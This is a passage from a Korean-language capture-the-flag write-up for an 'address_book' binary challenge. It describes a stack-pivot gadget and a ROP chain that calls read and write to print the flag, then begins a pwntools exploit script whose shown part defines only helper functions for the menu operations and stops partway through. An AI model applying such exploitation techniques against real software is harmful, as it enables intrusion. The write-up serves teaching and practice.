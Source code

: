 

![](address_book/12.png)



이제 필요한 주소들도 모두 구했고 eip도 컨트롤할 수 있으니, ROP chain만 구성하면 됩니다.

`mov rsp, [rcx+152]; mov rcx, [rcx+248]; jmp rcx;` 로 rsp를 현재 페이로드가 올라와 있는 주소로 pivot 한뒤 `read`, `write`를 차례로 호출하면 flag를 출력할 수 있습니다!



![](address_book/13.png)



## Exploit

```python
from pwn import *

def addAddr(name, address, city):
	p.sendline("1")
	print(p.recvuntil(':'))
	p.sendline(name)
	print(p.recvuntil(':'))
	p.sendline(address)
	print(p.recvuntil(':'))
	p.sendline(city)
	print(p.recvuntil('>'))	

def listAddr(idx):
	p.sendline("2")
	print(p.recvuntil('>'))	
	p.sendline(str(idx))

def deleteAddr(idx):
	p.sendline("3")
	print(p.recvuntil(">"))
	p.sendline(str(idx))
	print(p.recvuntil(">"))

def restoreAddr(idx):
	p.sendline("4")
	print(p.recvuntil(">"))
	p.sendline(str(idx))
	print(p.recvuntil(">"))

def modifyAddr(idx, item, new):
	p.sendline("5")
	p.recvuntil(">")
	p.sendline(str(idx))
	p.recvuntil(">")
	p.sendline(str(item))
```